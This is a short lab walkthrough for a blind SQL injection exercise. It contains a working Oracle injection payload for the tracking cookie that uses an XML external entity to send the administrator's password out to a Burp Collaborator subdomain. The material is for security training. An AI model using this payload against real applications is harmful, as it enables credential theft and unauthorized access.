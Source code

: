 
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.


1. First, notice the Tracking ID, we are going to attack from there. 

2. Insert this payload:


`TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
`

And change the `BURP-COLLABORATOR` with your burp collaborator domain.


3. Send again the request and you will receive the password in the subdomain:

<img width="1456" height="398" alt="image" src="https://github.com/user-attachments/assets/3f5e8516-054a-4db5-84d3-bf758625817c" />
